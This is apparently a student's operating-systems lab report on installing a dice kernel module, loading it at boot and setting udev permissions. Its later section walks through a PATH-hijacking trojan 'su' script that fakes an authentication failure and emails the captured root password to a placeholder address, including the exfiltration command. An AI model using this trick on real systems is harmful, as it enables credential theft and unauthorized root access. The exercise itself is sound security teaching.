 # Lab 10

ECE4820 FA2024 Introduction to Operating Systems

518370990004 Jae Heung Park

---

## 1 Project 3: presentations (part 2)

Presentation

## 2 A clean setup

After a couple of hours working in the back of your mum and Mr. Frown you have finally completed
your dice device driver. Although everything is working you have quite enjoyed the process and to have
a feeling of full accomplishment you want to polish your work. For instance you want the module to be
automatically loaded when the system boot ups, and you imagine that if your grandpa had friends with
an account on the same computer they would enjoy playing too.
To solve those questions you need to check the following points:

### Where to copy the dice module for it to be officially known to the kernel?

Kernel module copy path `/lib/modules/` or  
`/lib/modules/$(uname -r)/kernel/drivers/<custom_directory>`
or subdirectory based on their purpose

### What command to run in order to generate the `modules.dep` and map files?

Use `depmod` command to generate dependency map

```shell
depmod -a
```

### How to ensure the dice module is loaded at boot time, and how to pass it options?

Add the module to `/etc/modules` or `/etc/modules-load.d/<filename>.conf`
for some distributions
to ensure it loads at boot.
To pass options, create or edit `/etc/modprobe.d/<module_name>.conf`
with the following content:

```shell
options <module_name> <option1>=<value1> <option2>=<value2>
```

### How to create a new friends group and add grandpa and his friends to it?

First, create a new group. Name will be friends.
Then, add one of OS users to the group.

```shell
sudo groupadd friends
sudo usermod -aG friends <username>
```

### What is udev and how to define rules such that the group and permissions are automatically setup at device creation?

`udev` is Linux device manager. It dynamically control device nodes at `/dev` and handle events.
Define rules by file generation in path `etc/udev/rules.d`, e.g., `10-dice.rules`

```shell
SUBSYSTEM=="<subsystem>", KERNEL=="<device_name>", GROUP="friends", MODE="0660"
```

Then, reload `udev` rules to trigger those

```shell
sudo udevadm control --reload-rules
sudo udevadm trigger
```

## 3 A discreet gambling setup

The challenge is now to get this module on the family computer without anybody noticing it. If someone
tells your mother then both you and your grandpa will get in trouble. So you need a way to get root
access without inputing a wrong password and without knowing it! As it is too risky to open the computer
and take the hard disk to plug it on your own computer you have find another strategy.

### 3.1. Hacking mum’s computer

After a bit of thinking you have an interesting idea: on Linux systems the executables can be found in
the PATH, a colon separated list of directories. If more than one binary have the same name, then the one
found first is used. As you know your mum often uses the command su to become root, it thus suffices
to write a simple script called su, place it in a directory of your choice that you then prepend to the PATH
variable. When she will type su it will run your script. To your mum its behaviour should feel similar to
the real su, i.e. prompt for the root password and behave as if a wrong password had been input. In fact
in the background it should send you an email containing the root password and clean up all your traces,
that is delete the script, and reset the PATH to its original value. That way your mum will think she has
made a mistake and will rerun su. That time the correct command will be called and she will gain root
access. Therefore you think of the following points:

### How adjust the PATH, ensure its new version is loaded but then forgotten?

Open `~/.bashrc` or `./zshrc` and add `export PATH=/path/to/directory:$PATH`.
After finish, run `~./bashrc` or `./zshrc` to apply change.

### What is the exact behaviour of `su` when wrong password is input?

When `su` is executed with incorrect password, `perror` will be thrown.

```text
su: Authentication failure
```

Will be printed in terminal.

### When using the read command how to hide the user input?

Use `-s` option to hide input

```shell
read -s <input>
echo
```

### How to send an email from the command line?

CLI based email send requires installation of libraries first.

```shell
sudo apt install mailutils # Linux
brew install mailutils # MacOS
```

This one will be possible

```shell
echo "The root password is: $password" | mail -s "root password" email@site.com
```

Once you have completed this simple script you patiently wait for the email.
